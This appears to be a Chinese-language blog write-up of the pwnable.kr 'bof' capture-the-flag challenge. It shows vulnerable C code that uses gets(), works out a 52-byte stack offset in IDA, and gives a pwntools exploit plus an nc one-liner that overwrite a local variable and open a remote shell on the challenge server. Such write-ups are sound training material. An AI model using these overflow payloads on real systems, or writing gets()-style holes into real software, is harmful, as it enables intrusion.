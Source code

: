 ```yaml
---
layout: post
title: "pwnable.kr bof"
date: 2018-05-19 
tag: pwn Writeup pwnable.kr
---
```


先看一下给的源码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

大概的思路就是向overflowme进行输入时溢出将key覆盖成0xcafebabe就行了。

用ida观察，我们可以知道 key(a1)在 ebp+8h, overflowme(s)在ebp-2Ch,之间有52字节，最后再加上需要覆盖的4字节就OK了。

![img_1](/images/posts/pwnable.kr_bof/img_1.png)

下面给出exp

```python
from pwn import *

p = process("bof")
# p = remote('pwnable.kr',9000)

payload = 'a'*52 + '\xbe\xba\xfe\xca'

p.sendline(payload)

p.interactive()
```

![img_2](/images/posts/pwnable.kr_bof/img_2.png)

网上还看见一个更简单的`(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000` 。

这里大家一定疑惑加`cat`干嘛。这里如果我们不加上cat那么nc在传完python的输出后就完成了这条命令，会直接结束这次会话。我们加上cat后nc的这个会话会永不结束，直到用户输入Ctrl+C。然后cat又比较特殊，它可以将用户输入原封不动返回并重定向给了nc。

![img_3](/images/posts/pwnable.kr_bof/img_3.png)